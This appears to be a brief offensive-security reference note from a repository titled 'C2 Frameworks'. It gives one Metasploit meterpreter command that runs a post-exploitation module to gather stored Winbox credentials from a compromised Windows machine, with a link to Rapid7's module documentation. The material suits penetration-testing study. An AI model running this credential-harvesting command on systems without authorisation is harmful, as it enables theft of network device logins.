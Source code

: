 # C2 Frameworks

## 01 - Metasploit

```
meterpreter > run post/windows/gather/credentials/winbox_settings
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Winbox Settings Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/winbox_settings.md)